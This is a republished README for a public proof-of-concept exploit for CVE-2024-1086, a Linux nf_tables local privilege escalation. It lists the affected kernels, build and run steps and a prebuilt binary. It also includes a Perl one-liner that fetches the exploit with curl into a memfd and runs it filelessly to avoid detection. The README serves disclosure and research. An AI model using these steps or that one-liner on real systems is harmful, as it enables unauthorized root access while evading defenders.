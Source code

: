 ```yaml
---
title: CVE-2024-1086
date: 2024-03-30T12:15:48+08:00
draft: False
featuredImage: https://images.unsplash.com/photo-1709625862206-84f82e0754a8?ixid=M3w0NjAwMjJ8MHwxfHJhbmRvbXx8fHx8fHx8fDE3MTE3NzIwNTd8&ixlib=rb-4.0.3
featuredImagePreview: https://images.unsplash.com/photo-1709625862206-84f82e0754a8?ixid=M3w0NjAwMjJ8MHwxfHJhbmRvbXx8fHx8fHx8fDE3MTE3NzIwNTd8&ixlib=rb-4.0.3
---
```


# [Notselwyn/CVE-2024-1086](https://github.com/Notselwyn/CVE-2024-1086)

# CVE-2024-1086

Universal local privilege escalation Proof-of-Concept exploit for [CVE-2024-1086](https://nvd.nist.gov/vuln/detail/CVE-2024-1086), working on most Linux kernels between v5.14 and v6.6, including Debian, Ubuntu, and KernelCTF. The success rate is 99.4% in KernelCTF images.

https://github.com/Notselwyn/CVE-2024-1086/assets/68616630/a3d43951-94ab-4c09-a14b-07b81f89b3de

## Blogpost / Write-up

A full write-up of the exploit - including background information and loads of useful diagrams - can be found in the [Flipping Pages blogpost](https://pwning.tech/nftables/).


## Affected versions

The exploit affects versions from (including) v5.14 to (including) v6.6, excluding patched branches v5.15.149>, v6.1.76>, v6.6.15>. The patch for these versions were released in feb 2024. The underlying vulnerability affects all versions (excluding patched stable branches) from v3.15 to v6.8-rc1.

**Caveats:**
- The exploit does not work v6.4> kernels with kconfig `CONFIG_INIT_ON_ALLOC_DEFAULT_ON=y` (including Ubuntu v6.5)
- The exploits requires user namespaces (kconfig `CONFIG_USER_NS=y`), that those user namespaces are unprivileged (sh command `sysctl kernel.unprivileged_userns_clone` = 1), and that nf_tables is enabled (kconfig `CONFIG_NF_TABLES=y`). By default, these are all enabled on Debian, Ubuntu, and KernelCTF. Other distro's have not been tested, but may work as well.
- The exploit may be unstable on systems with a lot of network activity
	- Systems with WiFi adapter, when surrounded by high-usage WiFi networks, will be very unstable. 
	- On test devices, please turn off WiFi adapters through BIOS.

## Usage

### Configuration

The default values should work out of the box on Debian, Ubuntu, and KernelCTF with a local shell. On non-tested setups/distros, please make sure the kconfig values match with the target kernel. These can be specified in [`src/config.h`](/src/config.h). If you are running the exploit on a machine with more than 32GiB physical memory, make sure to increase `CONFIG_PHYS_MEM`.
If you are running the exploit over SSH (into the test machine) or a reverse shell, you may want to toggle `CONFIG_REDIRECT_LOG` to `1` to avoid unnecessary network activity.

### Building

If this is impractical for you, there is an [compiled x64 binary](https://github.com/Notselwyn/CVE-2024-1086/releases/download/v1.0.0/exploit) with the default config.

```bash
git clone https://github.com/Notselwyn/CVE-2024-1086
cd CVE-2024-1086
make
```

Binary: `CVE-2024-1086/exploit`


### Running

Running the exploit is just as trivial:

```bash
./exploit
```

Fileless execution is also supported, in case of pentest situations where detections need to be avoided. However, Perl needs to be installed on the target:
```bash
perl -e '
  require qw/syscall.ph/;

  my $fd = syscall(SYS_memfd_create(), $fn, 0);
  system "curl https://example.com/exploit -s >&$fd";
  exec {"/proc/$$/fd/$fd"} "memfd";
'
```

## Disclaimer

The programs and scripts ("programs") in this software directory/folder/repository ("repository") are published, developed and distributed for educational/research purposes only. I ("the creator") do not condone any malicious or illegal usage of the programs in this repository, as the intend is sharing research and not doing illegal activities with it. I am not legally responsible for anything you do with the programs in this repository.
